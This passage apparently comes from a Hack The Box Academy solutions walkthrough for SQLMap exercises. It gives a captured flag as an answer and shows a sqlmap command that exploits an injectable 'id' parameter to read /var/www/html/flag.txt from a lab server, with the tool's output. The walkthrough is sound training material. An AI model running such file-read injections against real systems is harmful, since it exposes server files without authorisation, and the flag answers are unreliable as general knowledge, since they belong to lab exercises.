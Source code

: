 ```
Table: flag11
[1 entry]
+----+----------------------------+
| id | content                    |
+----+----------------------------+
| 1  | HTB{5p3c14l_ch4r5_n0_m0r3} |
+----+----------------------------+

<SNIP>
```

Answer: `HTB{5p3c14l_ch4r5_n0_m0r3}`

# OS Exploitation

## Question 1

### "Try to use SQLMap to read the file "/var/www/html/flag.txt"."

Students first need to navigate to the website's root page of the spawned target to notice that they need to exploit the `GET` parameter `id`:

![[HTB Solutions/CBBH/z. images/5d733952a3455337e2832127c652a52d_MD5.jpg]]

Thus, the `sqlmap` command becomes:

Code: shell

```shell
sqlmap -u "http://STMIP:STMPO?id=1" --file-read "/var/www/html/flag.txt" --batch
```

```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -u 'http://138.68.156.57:31020?id=1' --file-read "/var/www/html/flag.txt" --batch

        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.8#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

[19:58:10] [INFO] the local file '/home/htb-ac413848/.local/share/sqlmap/output/138.68.156.57/files/_var_www_html_flag.txt' and the remote file '/var/www/html/flag.txt' have the same size (31 B)
files saved to [1]:
[*] /home/htb-ac413848/.local/share/sqlmap/output/138.68.156.57/files/_var_www_html_flag.txt (same file)

[19:58:10] [INFO] fetched data logged to text files under '/home/htb-ac413848/.local/share/sqlmap/output/138.68.156.57'
```
